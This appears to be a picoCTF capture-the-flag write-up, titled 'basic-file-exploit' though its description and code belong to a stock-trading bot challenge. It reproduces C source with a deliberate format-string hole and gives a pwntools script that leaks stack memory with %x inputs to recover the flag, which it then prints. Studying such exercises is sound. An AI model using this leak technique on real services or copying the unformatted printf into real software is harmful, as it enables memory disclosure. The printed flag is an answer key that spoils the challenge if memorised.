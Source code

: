 # Writeup - basic-file-exploit
Category: Binary Exploitation, Points: 100


## Descpriton

> I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure!

We can connect to the program with netcat: `nc mercury.picoctf.net 6989`

A source file is given


## Vulnerability

Given the source:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define FLAG_BUFFER 128
#define MAX_SYM_LEN 4

typedef struct Stonks {
  int shares;
  char symbol[MAX_SYM_LEN + 1];
  struct Stonks *next;
} Stonk;

typedef struct Portfolios {
  int money;
  Stonk *head;
} Portfolio;

int view_portfolio(Portfolio *p) {
  if (!p) {
    return 1;
  }
  printf("\nPortfolio as of ");
  fflush(stdout);
  system("date"); // TODO: implement this in C
  fflush(stdout);

  printf("\n\n");
  Stonk *head = p->head;
  if (!head) {
    printf("You don't own any stonks!\n");
  }
  while (head) {
    printf("%d shares of %s\n", head->shares, head->symbol);
    head = head->next;
  }
  return 0;
}

Stonk *pick_symbol_with_AI(int shares) {
  if (shares < 1) {
    return NULL;
  }
  Stonk *stonk = malloc(sizeof(Stonk));
  stonk->shares = shares;

  int AI_symbol_len = (rand() % MAX_SYM_LEN) + 1;
  for (int i = 0; i <= MAX_SYM_LEN; i++) {
    if (i < AI_symbol_len) {
      stonk->symbol[i] = 'A' + (rand() % 26);
    } else {
      stonk->symbol[i] = '\0';
    }
  }

  stonk->next = NULL;

  return stonk;
}

int buy_stonks(Portfolio *p) {
  if (!p) {
    return 1;
  }
  char api_buf[FLAG_BUFFER];
  FILE *f = fopen("api","r");
  if (!f) {
    printf("Flag file not found. Contact an admin.\n");
    exit(1);
  }
  fgets(api_buf, FLAG_BUFFER, f);

  int money = p->money;
  int shares = 0;
  Stonk *temp = NULL;
  printf("Using patented AI algorithms to buy stonks\n");
  while (money > 0) {
    shares = (rand() % money) + 1;
    temp = pick_symbol_with_AI(shares);
    temp->next = p->head;
    p->head = temp;
    money -= shares;
  }
  printf("Stonks chosen\n");

  // TODO: Figure out how to read token from file, for now just ask

  char *user_buf = malloc(300 + 1);
  printf("What is your API token?\n");
  scanf("%300s", user_buf);
  printf("Buying stonks with token:\n");
  printf(user_buf);

  // TODO: Actually use key to interact with API

  view_portfolio(p);

  return 0;
}

Portfolio *initialize_portfolio() {
  Portfolio *p = malloc(sizeof(Portfolio));
  p->money = (rand() % 2018) + 1;
  p->head = NULL;
  return p;
}

void free_portfolio(Portfolio *p) {
  Stonk *current = p->head;
  Stonk *next = NULL;
  while (current) {
    next = current->next;
    free(current);
    current = next;
  }
  free(p);
}

int main(int argc, char *argv[])
{
  setbuf(stdout, NULL);
  srand(time(NULL));
  Portfolio *p = initialize_portfolio();
  if (!p) {
    printf("Memory failure\n");
    exit(1);
  }

  int resp = 0;

  printf("Welcome back to the trading app!\n\n");
  printf("What would you like to do?\n");
  printf("1) Buy some stonks!\n");
  printf("2) View my portfolio\n");
  scanf("%d", &resp);

  if (resp == 1) {
    buy_stonks(p);
  } else if (resp == 2) {
    view_portfolio(p);
  }

  free_portfolio(p);
  printf("Goodbye!\n");

  exit(0);
}
```
As we can see in the source. there is a `printf(user_buf)` which does not have any formatting. This is a format-string vulnerability.


## Exploit

Here the `%x` symbol gives you the hexadecimal values. Since the `printf(user_buf)` line is not formatted if we give `%x` symbol as input it pops of values from the stack and prints them.

Steps:
1. For the first question type `1`.
2. For the question `What is your API token?` give a bunch of `%x` to leak out the values of some variables before `user_buf`. It will give you the output in hexadecimal.
3. Use an ASCII converter to convert hexadecimal into ASCII text.
4. Reverse the ASCII text and print it.

Here's the exploit in python - this script does all of the 4 steps:

```python
import sys
from pwn import *

r = remote('mercury.picoctf.net', 6989) if sys.argv[1] == "remote" else ELF("./vuln").process()

r.recvuntil("View my")
r.send("1\n")
r.recvuntil("What is your API token?\n")
r.send("%x" + "-%x"*100 + "\n")
r.recvline()

x = r.recvline()
x = x[:-1].decode()

s = ""
for i in x.split('-'):
  if len(i) != 8: continue
  a = bytes.fromhex(i)
  for b in reversed(a): s += chr(b) if b > 32 and b < 128 else ""
print(s)
```


## Flag
`picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}`
